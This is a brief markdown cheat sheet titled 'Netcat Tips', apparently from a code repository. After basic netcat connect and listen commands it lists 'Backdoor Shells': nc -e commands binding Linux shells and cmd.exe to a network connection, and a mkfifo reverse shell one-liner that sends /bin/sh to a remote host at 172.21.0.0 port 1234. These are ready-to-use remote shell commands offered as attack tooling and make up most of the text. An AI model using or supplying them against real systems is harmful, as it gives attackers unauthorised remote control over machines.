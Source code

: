 Netcat Tips

# Netcat Tips

## Fundamentals:

Connect to a netcat client:
- `rlwrap nc [IP Address] [port]`

Listen on a TCP port:

- `rlwrap nc -lvp [Localport]`

Listen on a UDP port:

- `rlwrap nc -lvup [port]`

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- `rlwrap nc [Your IP Address] -e /bin/sh`
- `rlwrap nc [Your IP Address] -e /bin/bash`
- `rlwrap nc [Your IP Address] -e /bin/zsh`
- `rlwrap nc [Your IP Address] -e /bin/ash`


Windows: 

- `rlwrap nc -lv [localport] -e cmd.exe`

Linux netcat reverse shell: 

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f`
